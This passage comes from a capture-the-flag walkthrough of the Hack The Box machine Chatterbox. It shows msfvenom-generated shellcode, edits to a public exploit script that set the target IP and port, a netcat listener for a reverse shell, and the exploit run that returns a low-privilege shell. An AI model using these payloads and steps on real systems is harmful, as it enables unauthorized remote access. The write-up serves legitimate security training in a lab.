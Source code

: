 We get back the following result.

```
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
......[truncated]
```

The payload size is 774 bytes, so within the limit. Copy the payload and add it in place of the payload included in the exploit. Also change the IP address to Chatterbox’s IP address.

```
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```

Then setup a listener on the attack machine to receive the reverse shell.

```
nc -nlvp 1234
```

Run the exploit.

```
root@kali:~/Desktop/htb/chatterbox# python 36025.py
---->{P00F}!
```

We get a shell!

![](../img/Chatterbox Writeup wo Metasploit/1_XK-pIFAJyBDZVuw7RA4MSQ.png)

Grab the _user.txt_ flag.

![](../img/Chatterbox Writeup wo Metasploit/1_AxvyV0VE64vlTeih-UKZIA.png)

We’re running as a low privileged user, so we’ll need to escalate privileges.

# Privilege Escalation

